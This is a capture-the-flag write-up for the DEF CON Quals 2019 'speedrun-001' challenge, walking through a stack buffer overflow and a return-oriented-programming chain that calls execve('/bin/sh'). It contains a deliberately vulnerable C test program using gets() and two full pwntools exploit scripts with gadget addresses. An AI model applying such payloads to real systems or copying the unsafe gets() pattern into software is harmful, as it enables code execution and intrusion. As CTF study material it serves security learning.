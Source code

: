 
# SpeedRun 1

This is the first speedrun challenge for DEF CON Quals 2019. I did not have time to work on this problem for more than two hours during the actual CTF (and was not fast enough to solve it in two hours, so I ended up solving it after the competition and therefore could only develop a local exploit. The speedrun challenges look like they are intended to be a little simpler than the standard pwnable challenges: they are meant for people to practice their skills, and accordingly I found them instructive.

### Reconnaissance

The first speedrun challenge is a 64-bit ELF binary with no PIE, no canary, and partial RELRO. It's also statically linked, so it was obvious at a first glance that I would have access to any gadget I wished for ROP. Accordingly, my intuition was to find the buffer overflow vulnerability first.

IDA shows a large number of subprocesses. Also, the binary is protected by an alarm, but the call to `alarm` is obfuscated. Also, it appears that I cannot attach `GDB` to this process -- there is a security feature that I have not learned about that makes the binary difficult to debug. I thought about disabling the call to `alarm`, but first I just found the buffer overflow vulnerability.

The buffer overflow vulnerability is pretty obvious: the program asks the user for input, then echoes the input and exits. Here's the vulnerability viewed in Ghidra: my intuition is that because I'm reading up to 2000 characters into a 1024-character buffer, I should be able to overwrite the return address of this function and get control of `%rip`.

![./vulnerability_viewed_in_ghidra.png](./vulnerability_viewed_in_ghidra.png)

### Developing the Exploit

Because I can't attach a debugger, I have to either figure out how to defeat that security measure or else ROP this binary blind. I decided to ROP it blind for the practice and the challenge. My first question to answer was whether the string I enter can have null bytes. The string gets echoed back to me, but any bytes after the first null byte in the string will not get echoed.

Since I'm doing this blind, I started by passing in a string with 1024 bytes, eight bytes to overwrite the saved `%rbp`, and then the address of the code that greets the challenger. That successfully greeted me. Next, I put some null bytes in my payload prior to the return address, and verified that I could still jump to the code that greets the challenger. Great!

In order to write `/bin/sh` to the `.bss` section, I considered pivoting to the `.bss` section, then returning to the code that reads input from the user, and writing both `/bin/sh` and the continuation of the ROP chain to the `.bss` section. That indeed worked, but it turns out my solution was more complicated than it needed to be. The rest of the solution just involves setting up a ROP chain to call `execve()` with a pointer to a null-terminated `/bin/sh` as the first argument, NULL as the second argument, and NULL as the third argument. I was a little rusty in doing this, so doing it blind was difficult. I set up a vulnerable test program to which I could attach a debugger, and placed in the test program ROP gadgets that mirrored gadgets that I could find in `speedrun1`. Here's my test program:

```
#include <stdio.h>
#include <stdlib.h>
#include <stdint.h>

char* global = "/bin//sh";

int fn1(void)
{   __asm__("pop %rdi;"
			"ret;"
			"pop %rsi;"
			"ret;"
			"pop %rax;"
			"ret;"
			"pop %rdx;"
			"ret;"
			"mov %rdi, (%rax);"
			"pop %rbx;"
			"ret;"
			"syscall");
}
int main (void)
{
  char input_buf[16];
  gets(input_buf);
  return 0;
}
```

(In the final exploit, I didn't need to use the global that I placed in the `.bss` section: I wrote `/bin/sh` to the `.bss` section myself.)

Notice one gadget that I found in `speedrun1`: `mov %rdi, (%rax)`. That lets me write `/bin/sh` to the `.bss` section directly.

With all that in place, here's the exploit code:
```
# exploit-speedrun1.py

from pwn import *
from time import sleep

local = True
if local:
	p = process('[redacted]/speedrun-001')
	DELAY = 0.1

POP_RSI_ADDR = 0x4101f3
POP_RAX_ADDR = 0x415664
POP_RDI_ADDR = 0x400686
POP_RDX_ADDR = 0x4498b5
SYSCALL_ADDR = 0x40129c
MOV_RDI_RAX_ADDR = 0x484ecc
BINSH_ADDR = 0x6bbb00
# picking an address far down the .bss section so it's likely to be
# null-terminated

payload = "A"*1024
payload += "A"*8 # New saved RBP
payload += p64(POP_RAX_ADDR)
payload += p64(BINSH_ADDR)
payload += p64(POP_RDX_ADDR)
payload += p64(0x0)
payload += p64(POP_RDI_ADDR)
payload += p64(0x0068732f6e69622f)
payload += p64(MOV_RDI_RAX_ADDR)
payload += p64(0x0) # RBX gets popped too
payload += p64(POP_RDI_ADDR)
payload += p64(BINSH_ADDR)
payload += p64(POP_RSI_ADDR)
payload += p64(0x0)
payload += p64(POP_RAX_ADDR)
payload += p64(0x3b)
payload += p64(SYSCALL_ADDR)
payload += "\n"
p.send(payload)
p.interactive()
```

Here's my version of the exploit that involves a pivot to the `.bss` section:

```
# exploit-speedrun1.py

from pwn import *
from time import sleep

local = True
if local:
	p = process('./speedrun-001')
	DELAY = 0.1

#GREET_CHALLENGER_ADDR = 0x400b4d
BSS_ROOT = 0x6bb300 # was 0x404700
NEW_RBP = BSS_ROOT + 0x200
POP_RSI_ADDR = 0x4101f3
POP_RAX_ADDR = 0x415664
POP_RDI_ADDR = 0x400686
POP_RDX_ADDR = 0x4498b5
SYSCALL_ADDR = 0x40129c
MOV_RDI_RAX_ADDR = 0x484ecc
BINSH_ADDR = 0x6bbb00
# picking an address far down the .bss section so it's likely to be
# null-terminated

payload = "A"*1024
payload = "A"*1024
payload += p64(NEW_RBP)
payload += p64(POP_RAX_ADDR)
payload += p64(NEW_RBP) # first 16 bytes are for
payload += p64(0x400b7e) # read stuff in

p.recvuntil("words?\n")
p.send(payload)
sleep(DELAY)

payload2 = "A"*8 # New saved RBP
payload2 += p64(POP_RAX_ADDR)
payload2 += p64(BINSH_ADDR)
payload2 += p64(POP_RDX_ADDR)
payload2 += p64(0x0)
payload2 += p64(POP_RDI_ADDR)
payload2 += p64(0x0068732f6e69622f)
payload2 += p64(MOV_RDI_RAX_ADDR)
payload2 += p64(0x0) # RBX gets popped too
payload2 += p64(POP_RDI_ADDR)
payload2 += p64(BINSH_ADDR)
payload2 += p64(POP_RSI_ADDR)
payload2 += p64(0x0)
payload2 += p64(POP_RAX_ADDR)
payload2 += p64(0x3b)
payload2 += p64(SYSCALL_ADDR)
payload2 += "\n"
p.send(payload2)

p.interactive()
```

That spawns a shell locally:

![./solved_locally.png](./solved_locally.png)

I can't get a remote shell because the competition has ended, but nonetheless that was a useful ROP review.

### Comparison to other approaches

[guyinatuxedo](https://github.com/guyinatuxedo/ctf/tree/master/defconquals2019/speedrun/s1) takes the same approach that I did. [k1nm3nh4ck3r](https://ctftime.org/writeup/15287) does everything from the command line, building up ROP gadgets in a note pad and then just executing the python code as a single line, directly in a terminal.
